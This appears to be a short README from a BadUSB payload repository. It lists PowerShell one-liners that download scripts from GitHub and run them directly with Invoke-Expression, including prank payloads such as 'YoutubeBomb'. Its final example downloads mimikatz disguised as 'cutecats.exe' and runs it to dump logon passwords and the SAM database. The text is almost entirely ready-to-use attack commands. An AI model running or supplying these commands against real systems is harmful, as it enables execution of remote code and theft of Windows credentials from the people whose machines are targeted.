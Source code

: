 ### Download and direclty run a powershell script

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/username/script.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)

Example - Play Sound

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/PlaySound.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - Change Wallpaper

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - YoutubeBomb

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/YoutubeBomb.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)

If you get the error "The response content cannot be parsed because the Internet  Explorer engine is not available,", Add the following opion:

    -UseBasicParsing

Exmple - Download and run Mimikatz

    Invoke-WebRequest -Uri https://github.com/ParrotSec/mimikatz/raw/master/x64/mimikatz.exe -OutFile cutecats.exe

    ./cutecats.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
